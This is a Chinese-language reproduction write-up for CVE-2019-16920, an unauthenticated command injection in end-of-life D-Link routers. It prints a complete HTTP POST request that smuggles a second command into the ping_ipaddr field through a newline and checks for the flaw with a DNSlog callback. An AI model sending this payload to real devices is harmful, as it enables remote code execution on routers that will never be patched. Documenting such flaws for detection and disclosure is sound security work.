


## 漏洞简介

2019年9月，Fortinet的FortiGuard Labs发现并向官方反馈了D-Link产品中存在的一个未授权命令注入漏洞（FG-VD-19-117/CVE-2019-16920），成功利用该漏洞后，攻击者可以在设备上实现远程代码执行（RCE）。由于攻击者无需通过身份认证就能远程触发该漏洞，因此我们将该漏洞标记为高危级别漏洞。

根据我们的测试，搭载最新版固件的如下D-Link产品存在该漏洞：


    DIR-655
    DIR-866L
    DIR-652
    DHP-1565

在本文撰写时，这些产品已超出产品支持生命周期（EOL），这意味着厂商不会再为我们发现的问题提供补丁。FortiGuard Labs在此感谢厂商的快速响应，建议用户尽快升级到新的设备。


## 漏洞复现

登录页面长这样（DIR-866L)




构造如下请求包

```
POST /apply_sec.cgi HTTP/1.1
Host: 162.xxx.xxxx.60:55555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Connection: close
Referer: http://162.xxx.xxx.60:55555/
Upgrade-Insecure-Requests: 1

html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0aping%20http://1234.dnslog平台地址
```


实际上就是一个命令注入，通过换行符（%0a）截断ping命令，然后插入自己想要执行的命令，上面的payload执行了ping命令，用dnslog的方式检测漏洞是否存在

效果如下



证明漏洞存在